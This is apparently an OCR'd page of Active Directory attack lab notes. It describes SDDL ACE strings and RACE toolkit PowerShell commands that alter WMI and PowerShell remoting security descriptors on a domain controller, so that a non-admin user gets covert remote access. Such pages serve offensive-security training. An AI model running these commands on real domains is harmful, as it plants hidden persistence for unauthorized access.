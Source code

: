 
Security Descriptor Definition Language defines the format which is used to describe
a security descriptor. SDDL uses ACE strings for DACL and SACL:

~~~
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_si
d
~~~

• ACE for built-in administrators for WMI namespaces

~~~
A;CI;CCDCLCSWRPWPRCWD;;;SID
~~~

##### Security Descriptors - WMI

ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:

```
. C:\AD\Tools\RACE-master\RACE.ps1
```

On local machine for student1:

```
Set-RemoteWMI -SamAccountName studentuser1 –Verbose
```

On remote machine for studentuser1 without explicit credentials:

```
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Verbose
```


On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:

```
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -
Credential Administrator –namespace 'root\cimv2' -Verbose
```

On remote machine remove permissions:

```
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Remove
```

##### Security Descriptors -PowerShell Remoting

Using the RACE toolkit
On local machine for studentuser1:

```
Set-RemotePSRemoting -SamAccountName studentuser1 –Verbose
```

On remote machine for studentuser1 without credentials:

```
Set-RemotePSRemoting -SamAccountName studentuser1 -
ComputerName us-dc -Verbose
```
